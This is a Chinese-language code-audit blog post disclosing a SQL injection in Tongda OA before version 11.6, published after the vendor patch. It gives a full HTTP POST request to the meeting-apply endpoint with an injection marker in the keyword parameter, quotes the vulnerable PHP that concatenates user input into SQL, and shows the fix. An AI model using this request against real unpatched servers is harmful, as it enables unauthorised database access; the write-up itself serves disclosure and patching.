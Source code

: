 ```yaml
---
layout: post
title:  "通达OA2019TDOA11.5以下版本SQL注入分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA存在SQL注入漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

这个漏洞是4月份的时候提交给厂商的，之后通达OA更新到了11.5版本，但是发现11.5版本并未修复此漏洞。直到2020-05-08日更新到11.6版的时候才修复此漏洞。为什么11.5版本未修复？大概是是因为4月中旬的时候出现了通达OA任意账号登录漏洞，厂商便紧急发布了任意账号登录漏洞的补丁包。

通过此也说明了这个SQL注入漏洞技术含量影响性较低。但既然漏洞已修复，便把其中的一些细节公布出来吧。低版本通达OA不止一处SQL注入，这篇文章暂时只发布其中的一处注入点。

## 0x02 漏洞分析

- 影响版本：< 通达OA11.6
- 发现时间：2020-04-01

### 一、payload

先上payload。测试发现其他的参数keyword、min_people、max_people存在SQL注入漏洞。需要特别说明的是，本漏洞不需要管理员账号，普通用户可以登录系统即可。

> POST /general/appbuilder/web/meeting/meetingapply/getmeetingapplyinfo HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
> Content-Length: 183
> Accept: */*
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
> Content-Type: application/x-www-form-urlencoded
> Cookie: USER_NAME_COOKIE=lina; SID_1=3b9b2a17; SID_12=6114b1ec; SID_65=dba4163e; PHPSESSID=e62i1gqidh35cb4pfbn3eatn84; OA_USER_ID=65; creat_work=new
> Origin: http://192.168.220.129
> Referer: http://192.168.220.129/general/meeting/myapply/applyMeeting/select1.php
> X-Requested-With: XMLHttpRequest
> Accept-Encoding: gzip
>
> date=2020-04-01&end_time=&equipment_ids=&keyword=*&max_people=&min_people=&start_time=

### 二、代码审计

- \general\appbuilder\modules\meeting\models\Meeting.php:1324行。此处的$data["keyword"]未处理便赋值给$keyword。

  ```php
  		$pageSize = modules\meeting\models\intval($data["pageSize"]);
  		$type = $data["type"];
  		$keyword = $data["keyword"];
  
  		if ($keyword != "") {
  			$key_where = array("like", "M_NAME", "$keyword");
  		}
  ```

- \general\appbuilder\modules\meeting\models\Meeting.php:4313行。此处的keyword直接拼接到了SQL语句中，导致了漏洞的触发。

  ```php
  		$where = " 1=1";
  		if (isset($mr_id) && !empty($mr_id)) {
  			$where .= " and MR_ID = '$mr_id'";
  		}
  
  		if (isset($keyword) && !empty($keyword)) {
  			$where .= " and MR_NAME like '%" . $keyword . "%'";
  		}
  
  		if (isset($min_people) && !empty($min_people)) {
  			$where .= " and MR_CAPACITY >= $min_people";
  		}
  
  		if (isset($max_people) && !empty($max_people)) {
  			$where .= " and MR_CAPACITY <= $max_people";
  		}
  
  		$sql1 = "SELECT * from Meeting_room where (TO_ID='ALL_DEPT' or find_in_set('$login_dept_id',TO_ID) or find_in_set('$login_user_id',SECRET_TO_ID) or find_in_set('$login_priv_id',PRIV_ID)) and USE_FLAG = '1' and" . $where;
  		$cur = self::getDb()->createCommand($sql1)->queryAll();
  ```

### 三、漏洞修复

修复方式也很简单。只需要进行如下的替换即可：

```php
$keyword = $data["keyword"];
```

替换为：

```php
$keyword = modules\meeting\models\intval($data["keyword"]);
```

测试发现，11.6版本也确实是这样修复的。

## 0x03 参考链接

- http://www.0e0w.com
